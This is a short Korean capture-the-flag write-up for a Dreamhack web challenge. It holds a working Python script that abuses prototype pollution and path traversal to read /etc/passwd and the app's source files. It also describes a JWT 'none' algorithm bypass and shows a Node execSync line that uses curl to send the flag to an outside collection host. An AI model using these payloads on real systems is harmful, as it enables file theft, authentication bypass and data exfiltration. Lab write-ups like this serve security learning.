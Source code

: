 
- Prototype Pollution을 `req.file.path`에 대해서도 할 수 있음
```python
#!/usr/bin/python3
import requests

port = 17316
s = requests.session()

def download(path):
    payload = f'''XXX", "__proto__":{{"file":{{"path":"publics%2fuploads%2f..%2f..%2f..{path.replace('/', '%2f')}"}}}}, "sth":"XXX'''
    print( s.get(f'http://host1.dreamhack.games:{port}/raw/{payload}').text )

    print( s.post(f'http://host1.dreamhack.games:{port}/upload').text )

    payload = '''%2e%2e%2f%2e%2e%2f%2e%2e''' + path.replace('/', '%2f').replace('.', '%2e')
    print( s.get(f'http://host1.dreamhack.games:{port}/raw/{payload}').text )

download('/app/Dockerfile')
download('/app/entrypoint.sh')
download('/app/custom.js')
download('/app/debug.js')
download('/app/package.json')
download('/app/userfunc.js')
download('/app/template/index.ejs')
download('/etc/passwd')
download('/app/flag') # 얘만 안 뜸!!

```

- Prototype Pollution으로 jwt 알고리즘을 우회할 수 있음
```
`jwt.sign`할 때 옵션에 `algorithm`을 주지 않아서 **prototype pollution**을 이용하면 `algorithm: 'none'`으로 덮어서 sign값 지울 수 있음. 근데 현재 jsonwebtoken 버전에서는 `jwt.verify()`할 때 위와 같은 문제를 막아놔서, 낮은 버전을 사용하거나 코드 수정이 있는 상황에 한해서 가능한 문제일 거 같음
```

- 브라우저 화면에 출력하는게 아닌 curl로 정보를 공격서버로 보내는 방식도 있
```jsx
require('child_process').execSync('curl https://rqfmjiv.request.dreamhack.games --data "data=`cat flag`"')
```